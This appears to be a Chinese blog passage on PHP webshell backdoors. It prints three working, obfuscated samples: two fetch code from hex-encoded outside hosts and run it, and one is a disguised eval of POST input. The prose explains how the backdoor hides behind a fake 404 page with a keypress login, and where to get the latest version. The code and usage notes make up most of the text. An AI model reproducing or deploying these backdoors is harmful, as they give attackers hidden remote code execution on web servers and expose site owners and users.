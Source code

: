```
<?php
error_reporting(0);
session_start();
header("Content-type:text/html;charset=utf-8");if(empty($_SESSION['api'])) $_SESSION['api']=substr(file_get_contents(sprintf('%s?%s',pack("H*",'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067'),uniqid())),3649);
@preg_replace("~(.*)~ies",gzuncompress($_SESSION['api']),null);
?>
```

其实这款后门在某地，还有 Tools 上先前已经被破，但没有被拿出来公开分析分享，而今天看到 [360 卫士对该 SHELL 进行了公开分析](http://www.freebuf.com/articles/web/29307.html)……，在 360 公开后，作者 [blackbin](http://require.duapp.com/session.php) 也进行了小幅更新，新版本不在使用高危函数例如 preg_replace e 修饰符同时 php5.5 已经去掉 e 不再使用 eval 不在使用 assert 采用新的匿名方式回调。  
代码如下：

```
<?php
error_reporting(0);
$i = pack('c*', 0x70, 0x61, 99, 107);
$GLOBALS = array(
'p' => pack('c*', 0x70, 0x61, 99, 107),
'c' => $i('c*', 99, 97, 108, 108, 95, 117, 115, 101, 114, 95, 102, 117, 110, 99),
'f' => $i('c*', 102, 105, 108, 101, 95, 103, 101, 116, 95, 99, 111, 110, 116, 101, 110, 116, 115),
'e' => $i('c*',0x63,0x72,0x65,0x61,0x74,0x65,0x5f,0x66,0x75,0x6e,0x63,0x74,0x69,0x6f,0x6e),
'h' => $i('H*', '687474703a2f2f626c616b696e2e64756170702e636f6d2f7631'),
's' =>$i('c*',0x73,0x70,0x72,0x69,0x6e,0x74,0x66)
);
$GLOBALS['c']($GLOBALS['e'](false, $GLOBALS['s']('%s',$GLOBALS['p']('H*',$GLOBALS['f']($GLOBALS['h'])))));
?>
```

关于这款后门的使用方法，首先要有远端大马，然后后门页其实是一个 404 伪装页，需要按键盘 p 键，就会显示登录页，关于此后门的最新代码方法可访问上边作者页获取！

替换特征 PHP 一句话
------------

```
<?php
$mt  = "mFsKCleRfU";
$ojj = "IEBleldle";
$hsa = "E9TVFsnd2VuJ10p";
$fnx = "Ow==";
$zk  = str_replace( "d", "", "sdtdrd_redpdldadcde" ); //str_replace
$ef  = $zk( "z", "", "zbazsze64_zdzeczodze" );          //base64_decode
$dva = $zk( "p", "", "pcprpepaptpe_fpupnpcptpipopn" ); //create_function
$zvm = $dva( '', $ef( $zk( "le", "", $ojj . $mt . $hsa . $fnx ) ) ); // @eval($_POST['wen']);
$zvm();
?>
```

### 命令执行 PHP 后门
